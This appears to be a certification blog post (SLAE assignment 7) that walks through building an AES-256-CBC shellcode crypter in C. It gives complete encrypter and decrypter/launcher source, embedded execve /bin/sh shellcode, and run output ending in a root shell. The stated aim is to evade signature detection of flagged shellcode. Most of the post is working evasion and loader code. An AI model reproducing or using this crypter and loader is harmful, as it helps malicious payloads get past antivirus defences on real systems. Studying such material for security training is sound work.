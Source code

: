 ```yaml
---
title: SLAE Exam 7 Custom Crypter
category: Security
tags: [slae, shell, assembly, programming]
---
```


Today we're throwing down the landing gear and finishing up with SLAE! It's been a great ride and I've learned a lot on the journey. With this last assignment the goal is to create a program that encrypts shellcode, and a program that decrypts and runs that shellcode. This would assist if your shellcode was getting flagged, and you weren't able to bypass the signature with the basic polymorphic techniques covered in assignment 6.

## Problem Statement

* Create a custom crypter like the one shown in the "crypters" video
* Feel free to use any existing encryption schema
* Can use any programming language


## AES-CBC

For this challenge, I decided to go with the popular AES-256 encryption schema in CBC mode, and we decided to develop this in C. Since AES-256 is a popular schema, we knew we wouldn't have to reinvent the wheel. So, we grabbed a small portable copy from [kokke's github](https://github.com/kokke/tiny-AES-c). We also used the `execve` shellcode from the course for testing. Let's get started!


#### Compiling Tiny AES

One small step we needed to take in the beginning was to compile our AES library, so that we could use it throughout the rest of the assignment. That was done using the following command:

```bash
$ gcc -Wall -Os -c -o aes.o aes.c
```

On to the crypter!

### Encrypter

The encrypter's job would be to hold known shellcode, and encrypt it with a key given to it by the user. We came up with the implementation below.

**_crypter.c_**

```c
#include <stdio.h>
#include <string.h>
#include <stdint.h>

// Enabling CBC must be done before including aes.h or at compile-time.
// For compile time, use -DCBC=1
#define CBC 1

#include "aes.h"

// execve /bin/sh
uint8_t shellcode[] = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

void printHex(uint8_t* buffer, size_t size) {
    for (int i = 0; i < size; i++) {
        printf("\\x%02X", buffer[i]);
    }
    printf("\n");
}


void encrypt(char* givenKey, size_t size) {
    uint8_t key[32] = { 0 };
    uint8_t iv[]  = { 0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f };
    struct AES_ctx ctx;

    printf("\nEncrypting...");

    memcpy(key, givenKey, strlen(givenKey));
    AES_init_ctx_iv(&ctx, key, iv);
    AES_CBC_encrypt_buffer(&ctx, shellcode, size);

    printf("Done!\n");
}


int main(int argc, char* argv[])
{
    size_t shellcodeSize = sizeof(shellcode) - 1; // disregard null terminator
    size_t encryptedSize = (16 - (shellcodeSize % 16) + shellcodeSize); // account for padding
    printf("Original Shellcode:\n");
    printHex(shellcode, shellcodeSize);

    encrypt(argv[1], shellcodeSize);
    printf("\nEncrypted Shellcode:\n");
    printHex(shellcode, encryptedSize);

    return 0;
}
```

#### Compiling the Crypter

```bash
$ gcc -Wall -Os crypter.c aes.o aes.h -o crypter
```

#### Running the Crypter

```bash
$ ./crypter "brownee and coffee 4 life"
Original Shellcode:
\x31\xC0\x31\xDB\x31\xC9\x31\xD2\x50\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62
\x69\x68\x2F\x2F\x2F\x2F\x89\xE3\x50\x89\xE2\x53\x89\xE1\xB0\x0B\xCD\x80

Encrypting...Done!

Encrypted Shellcode:
\x2F\x98\x36\x4B\xA8\xD1\x48\x01\x44\xBB\x3D\xCC\x15\xBB\x29\x08\x09\x63
\x79\x69\xB7\x0B\xEA\x9D\x7A\xEB\xE9\xE6\x01\x96\x7A\x56\xB8\x94\xD7\x08
\x67\x49\x1D\x31\x6E\xB4\x61\x08\x31\xB8\xC5\x40
```


### Decrypter / Launcher

Now that we've obtained our encrypted shellcode, we'll place that in our decrypter, shown below.

```c
#include <stdio.h>
#include <string.h>
#include <stdint.h>

// Enabling CBC must be done before including aes.h or at compile-time.
// For compile time, use -DCBC=1
#define CBC 1

#include "aes.h"

// encrypted execve /bin/sh
uint8_t shellcode[] = "\x2F\x98\x36\x4B\xA8\xD1\x48\x01\x44\xBB\x3D\xCC\x15\xBB\x29\x08\x09\x63\x79\x69\xB7\x0B\xEA\x9D\x7A\xEB\xE9\xE6\x01\x96\x7A\x56\xB8\x94\xD7\x08\x67\x49\x1D\x31\x6E\xB4\x61\x08\x31\xB8\xC5\x40";

void printHex(uint8_t* buffer, size_t size) {
    for (int i = 0; i < size; i++) {
        printf("\\x%02X", buffer[i]);
    }
    printf("\n");
}


void decrypt(char* givenKey, size_t size) {
    uint8_t key[32] = { 0 };
    uint8_t iv[]  = { 0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x0e, 0x0f };
    struct AES_ctx ctx;

    printf("\nDecrypting shellcode...");

    memcpy(key, givenKey, strlen(givenKey));
    AES_init_ctx_iv(&ctx, key, iv);
    AES_CBC_decrypt_buffer(&ctx, shellcode, size);

    printf("Done!\n");
}


int main(int argc, char* argv[])
{
    size_t encryptedSize = sizeof(shellcode) - 1; // disregard null terminator
    printf("Encrypted Shellcode:\n");
    printHex(shellcode, encryptedSize);

    decrypt(argv[1], encryptedSize);
    printf("\nDecrypted Shellcode:\n");
    printHex(shellcode, encryptedSize);

    printf("\nLaunching shellcode...\n");
    int (*ret)() = (int(*)())shellcode;
    ret();

    return 0;
}
```

This code takes our encrypted shellcode, and decrypts it using a key given by the user. Then, it calls the decrypted shellcode in order to launch our payload. Let's compile it and give it a shot.

#### Compiling the Decrypter

```bash
$ gcc -Wall -Os decrypter.c aes.o aes.h -o decrypter
```

#### Running the Decrypter

```bash
$ ./decrypter "brownee and coffee 4 life"
Encrypted Shellcode:
\x2F\x98\x36\x4B\xA8\xD1\x48\x01\x44\xBB\x3D\xCC\x15\xBB\x29\x08\x09\x63
\x79\x69\xB7\x0B\xEA\x9D\x7A\xEB\xE9\xE6\x01\x96\x7A\x56\xB8\x94\xD7\x08
\x67\x49\x1D\x31\x6E\xB4\x61\x08\x31\xB8\xC5\x40

Decrypting shellcode...Done!

Decrypted Shellcode:
\x31\xC0\x31\xDB\x31\xC9\x31\xD2\x50\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62
\x69\x68\x2F\x2F\x2F\x2F\x89\xE3\x50\x89\xE2\x53\x89\xE1\xB0\x0B\xCD\x80
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00

Launching shellcode...
# id
uid=0(root) gid=0(root) groups=0(root)
# exit
```

Excellent, everything seems to be working, and our payload successfully executed.


## Wrapping Up

Well, SLAE has finally come to an end for me. In all honesty, this was a fantastic course, and I've learned so much from it. If you're thinking of taking it, or you're thinking of taking your OSCE, but aren't sure if you're ready, I absolutely recommend SLAE! ***SPOILER ALERT***, I passed my OSCE on the first try with 12 hours to spare, and I 100% believe that I wouldn't have been able to do it if I had not taken SLAE first. It's been a great way of familiarizing myself with the concepts and fundamentals of assembly in a way that I haven't explored before. Anyways, if you're still with me, thanks for reading along! And until next time, happy hacking!


###### SLAE Exam Statement

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1158
